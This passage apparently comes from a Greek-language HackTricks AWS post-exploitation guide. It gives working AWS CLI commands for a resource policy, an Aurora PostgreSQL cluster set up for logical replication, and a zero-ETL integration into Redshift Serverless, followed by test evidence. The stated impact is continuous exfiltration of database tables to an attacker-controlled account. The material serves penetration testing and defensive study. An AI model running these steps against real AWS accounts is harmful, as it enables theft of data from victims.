ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
SRC_ARN=<AURORA_CLUSTER_ARN>
cat > rs-rp.json <<JSON
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AuthorizeInboundByRedshiftService",
"Effect": "Allow",
"Principal": {"Service": "redshift.amazonaws.com"},
"Action": "redshift:AuthorizeInboundIntegration",
"Resource": "$RS_NS_ARN",
"Condition": {"StringEquals": {"aws:SourceArn": "$SRC_ARN"}}
},
{
"Sid": "AllowCreateInboundFromAccount",
"Effect": "Allow",
"Principal": {"AWS": "arn:aws:iam::$ACCOUNT_ID:root"},
"Action": "redshift:CreateInboundIntegration",
"Resource": "$RS_NS_ARN"
}
]
}
JSON
aws redshift put-resource-policy --region $REGION --resource-arn "$RS_NS_ARN" --policy file://rs-rp.json
```
</details>

<details>
<summary>3) Δημιουργία Aurora PostgreSQL cluster (ενεργοποίηση Data API και logical replication)</summary>
```bash
CLUSTER_ID=aurora-ztl
aws rds create-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--engine aurora-postgresql --engine-version 16.4 \
--master-username postgres --master-user-password 'InitPwd-1!' \
--enable-http-endpoint --no-deletion-protection --backup-retention-period 1
aws rds wait db-cluster-available --region $REGION --db-cluster-identifier $CLUSTER_ID
# Serverless v2 instance
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--serverless-v2-scaling-configuration MinCapacity=0.5,MaxCapacity=1 --apply-immediately
aws rds create-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1 \
--db-instance-class db.serverless --engine aurora-postgresql --db-cluster-identifier $CLUSTER_ID
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
# Cluster parameter group for zero‑ETL
aws rds create-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg \
--db-parameter-group-family aurora-postgresql16 --description "APG16 zero-ETL params"
aws rds modify-db-cluster-parameter-group --region $REGION --db-cluster-parameter-group-name apg16-ztl-zerodg --parameters \
ParameterName=rds.logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.enhanced_logical_replication,ParameterValue=1,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_backup,ParameterValue=0,ApplyMethod=pending-reboot \
ParameterName=aurora.logical_replication_globaldb,ParameterValue=0,ApplyMethod=pending-reboot
aws rds modify-db-cluster --region $REGION --db-cluster-identifier $CLUSTER_ID \
--db-cluster-parameter-group-name apg16-ztl-zerodg --apply-immediately
aws rds reboot-db-instance --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
aws rds wait db-instance-available --region $REGION --db-instance-identifier ${CLUSTER_ID}-instance-1
SRC_ARN=$(aws rds describe-db-clusters --region $REGION --db-cluster-identifier $CLUSTER_ID --query 'DBClusters[0].DBClusterArn' --output text)
```
</details>

<details>
<summary>4) Δημιουργήστε την zero‑ETL ενσωμάτωση από το RDS</summary>
```bash
# Include all tables in the default 'postgres' database
aws rds create-integration --region $REGION --source-arn "$SRC_ARN" \
--target-arn "$RS_NS_ARN" --integration-name ztl-demo \
--data-filter 'include: postgres.*.*'
# Redshift inbound integration should become ACTIVE
aws redshift describe-inbound-integrations --region $REGION --target-arn "$RS_NS_ARN"
```
</details>

<details>
<summary>5) Υλοποίηση και εκτέλεση ερωτημάτων σε αναπαραγόμενα δεδομένα στο Redshift</summary>
```bash
# Create a Redshift database from the inbound integration (use integration_id from SVV_INTEGRATION)
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "select integration_id from svv_integration"  # take the GUID value
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database dev \
--sql "create database ztl_db from integration '<integration_id>' database postgres"
# List tables replicated
aws redshift-data execute-statement --region $REGION --workgroup-name ztl-wg --database ztl_db \
--sql "select table_schema,table_name from information_schema.tables where table_schema not in ('pg_catalog','information_schema') order by 1,2 limit 20;"
```
</details>

Αποδεικτικά στοιχεία που παρατηρήθηκαν στη δοκιμή:
- redshift describe-inbound-integrations: Status ACTIVE for Integration arn:...377a462b-...
- Στο SVV_INTEGRATION εμφανίστηκε το integration_id 377a462b-c42c-4f08-937b-77fe75d98211 και η κατάσταση PendingDbConnectState πριν από τη δημιουργία της βάσης δεδομένων.
- Μετά το CREATE DATABASE FROM INTEGRATION, η λίστα πινάκων αποκάλυψε το schema ztl και τον πίνακα customers· η επιλογή από ztl.customers επέστρεψε 2 γραμμές (Alice, Bob).

Επίπτωση: Continuous near‑real‑time exfiltration of selected Aurora PostgreSQL tables into Redshift Serverless controlled by the attacker, without using database credentials, backups, or network access to the source cluster.


{{#include ../../../../banners/hacktricks-training.md}}
